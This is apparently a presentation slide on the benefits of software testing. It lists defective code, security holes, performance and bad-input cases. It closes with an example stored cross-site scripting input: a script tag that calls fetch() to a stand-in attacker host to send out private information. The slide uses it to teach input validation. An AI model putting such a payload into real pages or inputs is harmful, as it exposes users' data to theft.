

# Testing Benefits
Defective code,
Fool-proofing (no offence), Look there is even a definition in the dictionary!
https://www.merriam-webster.com/dictionary/foolproof
Security holes
Performance
Legibility
Ensures against bad input
Input that is too long. Does it crash the database?
What happens if blank input is sent?
What happens if UTF-8 is enabled and we send a weird character?
What happens if the user writes this input into the database:
<script crossorigin>
  fetch("https://iam.hacker.com", { "info": "all your private information" });
</script>